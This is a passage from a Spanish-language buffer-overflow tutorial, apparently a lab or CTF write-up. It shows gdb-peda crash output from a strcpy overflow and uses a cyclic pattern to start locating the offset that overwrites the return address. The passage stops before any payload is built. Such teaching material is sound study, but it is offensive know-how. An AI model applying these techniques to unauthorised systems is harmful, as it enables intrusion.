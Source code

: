 ```bash
R13: 0x7fffffffdc30 --> 0x7fffffffe010 ("USER=metahumo")
R14: 0x0 
R15: 0x7ffff7ffd020 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400b57 <interactive+264>:	call   0x4006f0 <strcpy@plt>
   0x400b5c <interactive+269>:	nop
   0x400b5d <interactive+270>:	leave
=> 0x400b5e <interactive+271>:	ret
   0x400b5f <main>:	push   rbp
   0x400b60 <main+1>:	mov    rbp,rsp
   0x400b63 <main+4>:	sub    rsp,0x160
   0x400b6a <main+11>:	mov    DWORD PTR [rbp-0x154],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffd998 ('A' <repeats 39 times>, "\n")
0008| 0x7fffffffd9a0 ('A' <repeats 31 times>, "\n")
0016| 0x7fffffffd9a8 ('A' <repeats 23 times>, "\n")
0024| 0x7fffffffd9b0 ('A' <repeats 15 times>, "\n")
0032| 0x7fffffffd9b8 ("AAAAAAA\n")
0040| 0x7fffffffd9c0 --> 0x0 
0048| 0x7fffffffd9c8 --> 0x0 
0056| 0x7fffffffd9d0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400b5e in interactive ()
```

Nos interesa ahora fijarnos en esta parte:
```bash
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffd998 ('A' <repeats 39 times>, "\n")
```

**Explicación:** la idea es que con nuestra entrada sobrepasamos la cantidad de caracteres permitidos por el programa. Al procesar esto, el buffer se ve desbordado, y almacena la cadena sobrante en el registro `RSP`. Lo que vamos a querer saber es la parte de la cadena que pasa a este registro y para saber esto vamos a efectuar el siguiente comando desde `gdb-peda`.

```bash
pattern create 50
```

**Resultado:** generamos una cadena de 50 caracteres con gdb-peda. Esta herramienta nos va a permitir después detectar exactamente el número de bytes permitidos.

```bash
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
```

**Acción:** vamos a introducir esta cadena en el input del programa y ver el registro `RSP`.

```bas
RSP: 0x7fffffffd998 ("A;AA)AAEAAaAA0AAFAAbA\n")
```
